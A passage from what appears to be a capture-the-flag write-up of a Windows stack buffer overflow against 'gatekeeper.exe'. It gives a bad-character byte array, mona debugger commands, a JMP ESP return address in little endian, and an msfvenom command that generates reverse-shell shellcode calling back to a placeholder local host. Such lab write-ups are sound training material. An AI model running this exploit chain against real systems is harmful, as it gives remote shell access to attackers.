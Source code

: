 ```ruby
buff+= ""\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f" +
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" +
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f" +
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f" +
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f" +
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf" +
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf" +
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff""
```

i'll run the exploit using ```ruby bof.rb``` and then in immunity debugger, compare against a byte array to isolate the bad characters. note the ESP when the exploit terminates: 008D19E4.

```
!mona bytearray -b "\x00\x01\x02\x03\x04"
!mona compare -f C:\mona\gatekeeper\bytearray.txt 008D19E4
```
![badchars](/gatekeeper_badchars.png)

i used an expanded array from x00 to x04, and the results show that x0a is the first corrupted byte. that means the only bad characters i have are x00 and x0a.

before i move on, i must verify if ASLR (address space randomization) is turned off. the attack will not work otherwise.

```
!mona modules
```

ASLR is set to "false", so i can proceed with finding the JMP ESP values.

```
!mona jmp -r esp -m gatekeeper.exe
```
![ESP](/gatekeeper_esp.png)

i get back 2 pointers: 0x080414c3 and 0x080416bf. i'll use the former, but for my script i have to convert it to [little endian](https://en.wikipedia.org/wiki/Endianness) format, which stores the least significant byte at the smallest memory address. 

```ruby
buff+= "\xc3\x14\x04\x08"
```

for the actual shellcode, i'll use msfvenom.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<local IP> LPORT=4444 -f rb -b "\x00\x0a"
```
![shellcode](/gatekeeper_shellcode.png)
